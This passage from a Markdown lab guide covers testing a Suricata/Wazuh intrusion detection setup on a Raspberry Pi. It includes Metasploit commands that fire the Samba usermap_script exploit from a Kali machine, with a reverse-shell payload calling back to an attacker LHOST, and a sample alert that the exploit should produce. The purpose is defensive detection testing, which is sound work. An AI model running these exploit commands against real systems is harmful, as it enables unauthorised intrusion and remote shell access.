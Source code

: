 Restart agent:

```bash
sudo systemctl restart wazuh-agent
```

Check agent logs to ensure forwarding:

```bash
sudo tail -f /var/ossec/logs/ossec.log
```

On Wazuh Manager, ensure incoming logs arrive (check manager logs and Kibana/Elastic indices).

---

## 9. Test detection

### A. Quick ET test

```bash
curl http://testmyids.com
# then on Pi
tail -f /var/log/suricata/eve.json
# and in Wazuh manager logs
sudo tail -f /var/ossec/logs/ossec.log
```

You should see an `alert` event in `eve.json` referencing ET or TEST signature.

### B. Real exploit (Metasploit)

On attacker machine (Kali):

```bash
msfconsole
use exploit/multi/samba/usermap_script
set RHOSTS 192.168.202.138
set PAYLOAD cmd/unix/reverse
set LHOST 192.168.1.41
exploit
```

Watch Suricata:

```bash
tail -f /var/log/suricata/eve.json
```

Expected event sample (eve.json alert):

```json
{
  "timestamp": "2025-09-07T14:12:10.567890+0000",
  "event_type": "alert",
  "src_ip": "192.168.1.41",
  "dest_ip": "192.168.202.138",
  "alert": {
    "signature": "ET EXPLOIT Samba usermap_script exploit attempt",
    "category": "Attempted Administrator Privilege Gain",
    "severity": 1
  }
}
```

---